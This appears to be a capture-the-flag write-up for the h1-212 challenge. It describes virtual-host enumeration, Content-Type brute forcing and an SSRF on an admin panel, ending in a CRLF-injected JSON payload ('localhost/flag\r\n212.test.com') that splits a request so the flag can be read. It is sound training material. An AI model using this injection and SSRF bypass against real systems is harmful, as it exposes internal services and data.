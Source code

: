 # h1-212

OK here is my write up 


so first i start brute force and crawl directory to check if possible to get some files there

then i used virtual-host-discovery tool to get all virtual host there 

Found: www.acme.org (200)
Found: dev.acme.org (200)
Found: local (200)
Found: localhost (200)
Found: status.acme.org (200)
Found: status (200)
Found: staging.acme.org (200)
Found: staging (200)
Found: development (200)
Found: development.acme.org (200)
Found: uat (200)
Found: uat.acme.org (200)
Found: acme.org (200)
Found: beta (200)
Found: beta.acme.org (200)
Found: secure (200)
Found: secure.acme.org (200)
Found: mobile (200)
Found: mobile.acme.org (200)
Found: 127.0.0.1 (200)
Found: m.acme.org (200)
Found: m (200)
Found: admin (200)
Found: admin.acme.org (200)
Found: old (200)
Found: old.acme.org (200)
Found: v1.acme.org (200)
Found: v1 (200)
Found: v2.acme.org (200)
Found: v2 (200)
Found: v3.acme.org (200)
Found: v3 (200)
Found: alpha (200)
Found: alpha.acme.org (200)

so as description said : admin.acme.org this is the one :D (An engineer of acme.org launched a new server for a new admin panel
)

root@ip-172-31-20-83:/home/ubuntu# curl -I http://admin.acme.org
HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 22:59:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Type: text/html; charset=UTF-8

next i start get 406 

![image](https://user-images.githubusercontent.com/7364615/32996613-4079913c-cd85-11e7-8b8c-6ba8b8aa1192.png)

so i get some stackoverflow solution which ask to look for good content-type
https://stackoverflow.com/questions/14251851/what-is-406-not-acceptable-response-in-http

brute force all type possible get that application/json is the one :d

![image](https://user-images.githubusercontent.com/7364615/32996624-64af4498-cd85-11e7-8b15-b046b0d6b4de.png)


THEN START PLAY WITH JSON DATA 
![image](https://user-images.githubusercontent.com/7364615/32996628-6e864b56-cd85-11e7-9749-30779d47e516.png)
until fix taht output 


and after send domain 
![image](https://user-images.githubusercontent.com/7364615/32996636-7dab1698-cd85-11e7-8a26-a8c27b0cfab0.png)

so when domain is valid we get data base64

![image](https://user-images.githubusercontent.com/7364615/32996640-8aa5e800-cd85-11e7-80e4-04356e646d68.png)
which is the source code of that website

:d its look ssrf here guys :D


lets bypass .com and 212 containe

after read alot from 
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf orange 

i notice i can use feed line to make 2 request or more

{"domain":"localhost/flag\r\n212.test.com"} with this data it will increment id+2

id+1 for localhost and id+2 for 212.test.com


so just get request of the id+1 get make us read the flag 
